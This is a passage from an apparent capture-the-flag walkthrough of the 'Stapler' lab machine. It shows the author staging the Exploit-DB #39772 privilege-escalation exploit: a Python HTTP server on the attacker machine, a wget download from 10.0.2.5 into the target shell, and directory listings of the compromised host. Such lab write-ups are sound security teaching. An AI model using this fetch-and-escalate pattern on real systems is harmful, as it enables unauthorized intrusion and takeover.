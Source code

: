 <p>YES, it works! We've got the shell ready to perform last step - privilage escalation. After looking in exploit-db I have found the script that will allow us to perform this operation - <a href="https://www.exploit-db.com/exploits/39772/">Exploit-db #39772 </a>. We can't download it in our shell session but what we can do is to download it using OS we're using, setup simple HTTP server and then download it to our stapler machine. Start simple HTTP server in the folder where you downloaded the .zip package, you can do this using this python command: </p>

{% highlight bash %}
python -m SimpleHTTPServer 80
{% endhighlight %}

<p>Then download it using the wget tool.</p>

{% highlight bash %}
$ wget http://10.0.2.5/39772.zip
--2016-09-11 13:25:04--  http://10.0.2.5/39772.zip
Connecting to 10.0.2.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7025 (6.9K) [application/zip]
39772.zip: Permission denied

Cannot write to '39772.zip' (Success).
$ ls
bin
boot
dev
etc
home
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz.old
$ cd home     
$ ls
AParnell
CCeaser
CJoo
DSwanger
Drew
ETollefson
Eeth
IChadwick
JBare
JKanode
JLipps
LSolum
LSolum2
MBassin
MFrei
NATHAN
RNunemaker
SHAY